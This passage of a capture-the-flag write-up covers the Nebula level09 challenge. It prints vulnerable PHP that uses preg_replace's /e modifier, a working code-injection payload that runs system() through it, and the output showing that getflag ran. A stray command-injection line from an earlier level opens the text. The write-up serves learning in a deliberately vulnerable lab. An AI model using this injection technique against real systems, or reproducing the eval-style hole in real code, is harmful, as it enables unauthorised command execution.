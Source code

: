 ```@output = `ping -c 3 x || getflag 2>&1```. Because `ping -c 3 x`
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
{% endhighlight %}

~~~
$ ls -lA /home/flag09
-rwsr-x--- 1 flag09 flag09 7240 2011-11-20 21:22 flag09
-rw-r--r-- 1 root   root   491  2011-11-20 21:22 flag09.php
...
~~~

After fooling around & figuring out how I could print / access the
`$use_me` variable when feeding the program with input, I was able
to come up with a solution that worked.

We start by creating a file with some specific content, we need to match
the regexp, otherwise our file-contents wont go through the sausage-machine.

~~~
$ cd /tmp
$ cat << EOF > level09_test
[email {${system($use_me)}}]
EOF
~~~

**Note: I'm terrible at PHP, so my understanding might very well be completely wrong**

The reason the file above acts as php-code when ran through the
program is the `/e` in the first call to `preg_replace`, which basically feeds the
string to [eval](https://php.net/manual/en/function.eval.php), which
allows us to slip some code in for it to execute.

Finally we put the pieces together and sigh as it actually worked, *because... computers*.

~~~
$ pwd
/tmp
$ /home/flag09/flag09 ./level09_test "/bin/getflag"
You have successfully executed getflag on a target account
PHP Notice: Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15): regexp code on line 1
~~~

[Here's](https://stackoverflow.com/questions/15454220/replace-preg-replace-e-modifier-with-preg-replace-callback)
a Stackoverflow question regarding `/e`, that I came across while
solving the level that explains it better than me.

```